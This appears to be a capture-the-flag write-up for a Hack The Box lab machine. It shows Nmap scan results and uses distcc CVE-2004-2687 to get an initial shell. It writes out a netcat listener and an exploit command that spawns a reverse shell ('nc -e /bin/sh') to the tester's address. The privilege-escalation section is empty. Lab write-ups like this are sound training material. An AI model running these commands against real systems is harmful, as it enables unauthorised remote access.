



# Enumeration
```bash
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h39m11s, deviation: 0s, median: 4h39m11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-28T06:59:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.02 seconds
```

## Initial Shell
I could see that also port 3632 was vulnerable: </br>
 </br>
 </br>
Vulnerabilities nmap script: ```nmap -sS -p3632 -Pn 10.10.10.3 -v --script vuln``` </br> </br>
**Distcc:** </br>
distcc is designed to speed up compilation by taking advantage of unused processing power on other computers.
A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed. </br>
**Exploit CVE 2004-2687:** </br>
distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, 
allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. </br>
I used DistCC Daemon RCE Exploit from [GitHub](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) </br>
And it worked: </br>
 </br>
To get a reverse shell I first started a netcat listenenr on another terminal with```nc -nlvp 1234``` </br> 
And specified this in the -c argument: ```python2 distcc_exploit.py -t 10.10.10.3 -p 3632 -c 'nc -e /bin/sh 10.10.14.27 1234'``` </br>

# Privilege Escalation

